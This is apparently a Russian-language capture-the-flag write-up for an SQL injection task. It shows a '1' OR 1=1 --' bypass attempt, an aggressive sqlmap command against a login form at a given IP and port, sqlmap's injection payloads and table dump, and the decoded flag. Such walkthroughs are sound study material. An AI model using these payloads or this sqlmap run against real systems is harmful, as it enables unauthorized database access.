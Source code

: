 # ne SQLi

SQLi? - SQL injection

Первый запрос в гугл и допустим находим **1' OR 1=1 --**

Засылаем и...

![Task](img/view_task.png)

Смотрим f12, видим:

*Anime devo4ka govorit: "See url"*

и вправду, url довольно специфический:

*41726520796f75206c6f6767656420696e3f20416e64207468656e20776861743f20596f75207468696e6b20796f752063616e20646f20697420776974686f757420746f6f6c733f2061686168616861*

СyberChef + From hex:

*Are you logged in? And then what? You think you can do it without tools? ahahaha*

Намёк на тулзу прямой, а **sqlmap** как раз для этого:

```sh
$ sqlmap -u "http://46.254.20.217:2005/" --data="username=a222&password=1231&submit=Login" --level=5 --risk=3 --tables
...
sqlmap got a 302 redirect to 'http://46.254.20.217:2005/41726520796f75206c6f6767656420696e3f20416e64207468656e20776861743f20596f75207468696e6b20796f752063616e20646f20697420776974686f757420746f6f6c733f2061686168616861'. Do you want to follow? [Y/n] n
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
...
POST parameter 'password' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 978 HTTP(s) requests:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=a222&password=1231' OR NOT 7945=7945-- pdCF&submit=Login

Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=a222' OR NOT 3547=3547-- gURw&password=1231&submit=Login
---
there were multiple injection points, please select the one to use for following injections:
[0] place: POST, parameter: username, type: Single quoted string (default)
[1] place: POST, parameter: password, type: Single quoted string
[q] Quit
> 0
[04:15:42] [INFO] the back-end DBMS is SQLite
web application technology: Nginx
back-end DBMS: SQLite
[04:15:42] [INFO] fetching tables for database: 'SQLite_masterdb'
[04:15:42] [INFO] fetching number of tables for database 'SQLite_masterdb'
[04:15:42] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:15:42] [INFO] retrieved: 9
[04:15:42] [INFO] retrieved: axwlitwwsg
[04:15:44] [INFO] retrieved: kvkdziemmd
[04:15:46] [INFO] retrieved: yfdvvikqkb
[04:15:47] [INFO] retrieved: bcjwtzgyxc
[04:15:49] [INFO] retrieved: mvticxxewh
[04:15:51] [INFO] retrieved: iacoayjemu
[04:15:52] [INFO] retrieved: tvzjxtuzjt
[04:15:54] [INFO] retrieved: 3468736c3333707b6e3333645f6631785f347537683072317a3474316f6e5f6d33687d
[04:16:07] [INFO] retrieved: 3468736c3333707b66616b655f666c61675f6c6f6c7d
Database: SQLite_masterdb
[9 tables]
+------------------------------------------------------------------------+
| 3468736c3333707b66616b655f666c61675f6c6f6c7d                           |
| 3468736c3333707b6e3333645f6631785f347537683072317a3474316f6e5f6d33687d |
| axwlitwwsg                                                             |
| bcjwtzgyxc                                                             |
| iacoayjemu                                                             |
| kvkdziemmd                                                             |
| mvticxxewh                                                             |
| tvzjxtuzjt                                                             |
| yfdvvikqkb                                                             |
+------------------------------------------------------------------------+
```

Видим странные название таблиц.

Заходим на CyberChef - From hex:

*3468736c3333707b66616b655f666c61675f6c6f6c7d - 4hsl33p{fake_flag_lol}*

*3468736c3333707b6e3333645f6631785f347537683072317a3474316f6e5f6d33687d - 4hsl33p{n33d_f1x_4u7h0r1z4t1on_m3h}*

Флаг - *4hsl33p{n33d_f1x_4u7h0r1z4t1on_m3h}*

<s>ps. У самого не с первого раза решается, всегда по разному, но главное танцевать с аргументами sqlmap'a! Название таска не просто так, лол.</s>